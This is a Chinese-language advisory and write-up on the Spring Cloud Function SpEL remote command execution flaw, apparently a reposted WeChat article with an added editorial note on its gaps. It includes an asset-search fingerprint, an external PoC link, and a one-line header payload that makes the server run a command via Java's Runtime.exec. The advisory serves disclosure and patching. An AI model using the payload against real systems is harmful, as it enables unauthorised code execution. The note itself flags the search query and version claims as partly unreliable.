

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：3.0.0.RELEASE–3.2.2统一跨度，需按维护分支核；部分动态路由条件已提示但不具体

代码与实验材料：只有header表达式、截图和外部PoC；无完整请求路径/body

来源证据范围：CKCsec原署名、官方固定commit与第三方工具

- **适用与权限边界（1）**：影响/修复前提不完整；依据：部分版本需要动态路由只留一句，安全版本未给。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（2）**：检索与标识错误；依据：FOFA闭合弯引号，app是Boot泛指纹不能识别CloudFunction。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Spring Cloud Function SPEL 远程命令执行漏洞

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Sz7vU9hAvzL4vqUAbrBq-g)


**点击蓝字** 关注我们


-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

  

**_声明  
_**

本文作者：CKCsec安全研究院  
本文字数：482

阅读时长：5 分钟

项目/链接：文末获取

**本文属于【CKCsec安全研究院】原创文章，未经许可禁止转载**

Spring Cloud Function SPEL 远程命令执行漏洞  

======================================

遵纪守法
----

任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益

漏洞描述
----

Spring Cloud Function 是基于Spring Boot 的函数计算框架，通过对传输细节和基础架构进行抽象，为开发人员保留熟悉的开发工具和开发流程，使开发人员专注在实现业务逻辑上，从而提升开发效率。

访问Spring Cloud Function的 HTTP请求头中存在 spring.cloud.function.routing-expression参数，其 SpEL表达式可进行注入攻击，并通过 StandardEvaluationContext解析执行。最终，攻击者可通过该漏洞进行远程命令执行。

风险等级
----

高

影响版本
----

```
3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2  

```

注：部分版本进行特定配置的动态路才会受该漏洞影响！

资产确定
----

```
app="vmware-SpringBoot-framework“  

```

漏洞复现
----

**「POC」**

https://github.com/hktalent/spring-spel-0day-poc

```
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("calc")  

```



修复建议
----

目前Spring Cloud官方已经推出补丁修复漏洞，受影响用户可以通过官方补丁进行修复。

官方链接：

https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f

另外关注公众号后台回复“**0112**”可免费获取代码审计教程，后台回复“**0110**”获取[红队攻防内部手册](http://mp.weixin.qq.com/s?__biz=MzkxMTIyMjg0NQ==&mid=2247488677&idx=1&sn=f0d52096bc9b7a6a34d1ad0fb9d73727&chksm=c11e25f7f669ace128a38a07e22e3988e41dd03fb1deb4ce6f793231f95c8c91ba038d766eb3&scene=21#wechat_redirect)。  

  

下面就是团队的公众号啦，老铁来都来了点波关注叭！

  

  ** CKCsec安全研究院 ** 专注于网络安全的公众号，分享最新的Red Team、APT等高级攻击技术、以及最新的漏洞威胁刨析。 42篇原创内容   公众号

上面教程仅供个人学习交流，旨在为网络安全发展贡献力量，切勿用于非法用途，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。以上教程来源于网络，版权归原作者所有，如有侵权，请联系删除。

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
